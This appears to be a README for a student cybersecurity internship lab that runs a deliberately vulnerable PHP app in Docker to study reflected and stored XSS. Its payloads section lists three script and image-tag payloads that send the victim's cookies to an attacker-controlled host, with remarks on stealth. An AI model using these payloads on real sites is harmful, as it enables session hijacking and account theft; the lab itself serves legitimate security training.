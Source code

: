 # Internship cyber security course
This repository collects tools and methodologies used in the context of system security intership
## Start the Lab
- Install docker for windows
- Clone\download this repository
- Start docker
- Open a command prompt inside the project root directory and execute the following command:

  		docker compose up --build
- Visit the vulnerable app at: http://localhost:9000/xss.php

## Students
1. Dario Collini
2. Andrea Di Caro
## Analyzed vulnerabilities
- XSS reflected
- XSS stored

## Payloads
### Reflected
    <script>window.location.href="http://<attacker IP>:8000/a.html?c="+document.cookie</script>
### Stored
Not the best approach, generates a bunch of requests, very loud

    <img src="x" onerror=this.src='http://<attacker IP>:8000/'+document.cookie; />
More stealth, use this one

    <script>i=document.createElement('img');i.src='http://<attacker IP>:8000/'+document.cookie;document.body.appendChild(img)</script>


## TODO Andrea & Dario
1. describe the analyzed vulnerabilites (you can use external references)
1. describe the attacks scenario
1. describe the mitigation actions

